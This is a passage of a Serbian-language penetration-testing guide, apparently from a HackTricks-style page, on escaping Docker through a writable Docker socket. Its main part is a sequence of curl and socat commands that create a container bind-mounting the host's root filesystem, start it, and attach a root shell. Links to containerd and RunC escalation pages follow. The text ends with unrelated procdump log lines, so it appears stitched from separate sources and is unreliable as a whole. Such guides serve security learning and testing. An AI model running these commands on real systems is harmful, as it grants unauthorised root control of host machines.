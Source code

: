 ```bash
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
```

2. **Kreiranje kontejnera:** Pošaljite zahtev za kreiranje kontejnera koji montira koreni direktorijum sistema domaćina.

```bash
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
```

Pokrenite novo kreirani kontejner:

```bash
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
```

3. **Povezivanje sa kontejnerom:** Koristite `socat` za uspostavljanje veze sa kontejnerom, omogućavajući izvršavanje komandi unutar njega.

```bash
socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp
```

Nakon uspostavljanja veze sa `socat`, možete izvršavati komande direktno u kontejneru sa pristupom nivou root do fajl sistema domaćina.

### Ostalo

Imajte na umu da ako imate dozvole za pisanje nad Docker socket-om jer ste **unutar grupe `docker`**, imate [**više načina za eskalaciju privilegija**](interesting-groups-linux-pe/#docker-group). Ako [**docker API sluša na portu** takođe možete biti u mogućnosti da ga kompromitujete](../../network-services-pentesting/2375-pentesting-docker.md#compromising).

Proverite **više načina za izlazak iz docker-a ili zloupotrebu za eskalaciju privilegija** u:

{% content-ref url="docker-security/" %}
[docker-security](docker-security/)
{% endcontent-ref %}

## Eskalacija privilegija Containerd (ctr)

Ako otkrijete da možete koristiti komandu **`ctr`**, pročitajte sledeću stranicu jer **možda ćete moći da je zloupotrebite za eskalaciju privilegija**:

{% content-ref url="containerd-ctr-privilege-escalation.md" %}
[containerd-ctr-privilege-escalation.md](containerd-ctr-privilege-escalation.md)
{% endcontent-ref %}

## Eskalacija privilegija **RunC**


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714